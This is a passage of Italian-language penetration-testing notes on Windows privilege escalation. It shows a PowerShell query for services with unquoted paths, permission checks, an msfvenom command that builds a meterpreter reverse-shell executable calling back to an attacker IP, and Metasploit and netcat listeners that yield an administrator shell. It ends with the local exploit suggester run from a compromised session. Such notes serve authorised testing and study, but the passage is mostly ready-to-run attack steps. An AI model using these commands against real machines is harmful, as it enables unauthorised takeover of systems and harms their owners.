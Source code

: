 ```powershell
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
```

Verifichiamo i dettagli del servizio e la possibilità di scrivere nella sua cartella usando il cmd

```bash
cmd

sc qc <“SERVIZIO”>

icacls <“C:\SERVICE_PATH”>
```

Creiamo un payload con msfvenom, e gli diamo come nome la prima parte del nome della cartella.

```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> LPORT=<LISTENING_PORT> -f exe -o <DIR_NAME.exe>
```

Lo trasferiamo nella cartella specifica della macchina target.

Avviamo un *listener* (con Metasploit o Netcat).

```bash
sudo msfconsole

use exploit/multi/handler

set LHOST <ATTACKER_IP>

set LPORT <LISTENING_PORT>

run
```

oppure

```bash
nc -lvnp <LISTENING_PORT>
```

All’avvio successivo della macchina (o del processo) otteremo una shell da amministratore.

---

## Metasploit Exploit Suggester

Eseguire il modulo *exploit suggester* su una macchina già compromessa con una sessione meterpreter

```bash
meterpretr > run 𝚙𝚘𝚜𝚝/𝚖𝚞𝚕𝚝𝚒/𝚛𝚎𝚌𝚘𝚗/𝚕𝚘𝚌𝚊𝚕_𝚎𝚡𝚙𝚕𝚘𝚒𝚝_𝚜𝚞𝚐𝚐𝚎𝚜𝚝𝚎𝚛
```

Lo script analizzerà il target alla ricerca di vie percorribili (e relativi moduli post compromise) per un *Privilege Escalation*

---